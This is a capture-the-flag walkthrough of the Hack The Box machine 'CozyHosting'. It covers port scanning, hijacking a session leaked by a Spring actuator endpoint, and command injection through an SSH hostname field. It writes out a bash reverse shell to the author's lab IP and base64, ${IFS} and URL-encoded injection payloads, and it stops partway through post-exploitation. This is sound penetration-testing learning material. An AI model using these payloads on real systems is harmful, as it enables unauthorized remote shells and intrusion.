 # CozyHosting
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. 






